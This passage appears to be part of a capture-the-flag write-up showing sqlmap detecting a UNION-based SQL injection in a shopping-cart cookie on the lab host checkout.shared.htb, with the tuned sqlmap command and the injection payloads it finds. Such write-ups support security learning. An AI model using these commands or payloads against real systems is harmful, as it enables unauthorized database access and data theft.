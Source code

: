         Type: UNION query
        Title: Generic UNION query (NULL) - 4 columns
        Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(0x71707a6b71,0x734c79424b45765669424a43437741676c51796c506b44416258586265587a786d7854696c737a58,0x71717a7871),NULL-- -":"1"}
    ---
    [13:21:27] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.18.0
    back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
    [13:21:27] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/checkout.shared.htb'

    [*] ending @ 13:21:27 /2022-08-12/



But given I already know some details about the injection, I can specify
technique and number of columns, and it finds the injection in down to
20 seconds:



    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch
            ___
           __H__
     ___ ___[)]_____ ___ ___  {1.6.6.12#dev}
    |_ -| . [']     | .'| . |
    |___|_  [(]_|_|_|__,|  _|
          |_|V...       |_|   https://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 13:23:39 /2022-08-12/

    custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
    [13:23:39] [INFO] testing connection to the target URL
    [13:23:40] [INFO] checking if the target is protected by some kind of WAF/IPS
    do you want to URL encode cookie values (implementation specific)? [Y/n] Y
    [13:23:40] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
    [13:23:41] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
    [13:23:41] [INFO] testing 'Generic UNION query (NULL) - 3 to 3 columns (custom)'
    [13:23:41] [WARNING] applying generic concatenation (CONCAT)
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
    [13:23:48] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
    [13:23:55] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 3 to 3 columns (custom)' injectable
    [13:23:55] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
    (custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
    ---
    Parameter: Cookie #1* ((custom) HEADER)
        Type: UNION query
        Title: Generic UNION query (NULL) - 4 columns (custom)
        Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qkzzq','qkLgtkpenVgVOfSjpNljLUkfXDPnOuEMartRDuNE'),'qzqvq'),NULL-- bgRi":"1"}
    ---
    [13:23:57] [INFO] testing MySQL